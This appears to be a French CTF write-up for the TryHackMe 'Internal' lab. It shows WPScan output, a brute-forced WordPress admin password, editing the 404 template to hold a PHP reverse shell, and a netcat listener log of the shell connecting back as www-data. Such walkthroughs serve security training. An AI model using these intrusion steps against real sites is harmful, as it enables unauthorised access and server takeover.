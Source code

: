 ## WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.116.71/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.116.71/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.116.71/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'WordPress 5.4.2'
```

WordPress version 5.4.2

# Exploitation
Je trouve le compte admin du wordpress après l'avoir bruteforce

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                               

On edite la page 404 et on y met un reverse shell php

On provoque une erreur 404 et le shell s'ouvre.

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Internal]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.116.71] 55198
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:29:46 up 33 min,  0 users,  load average: 0.00, 0.19, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```
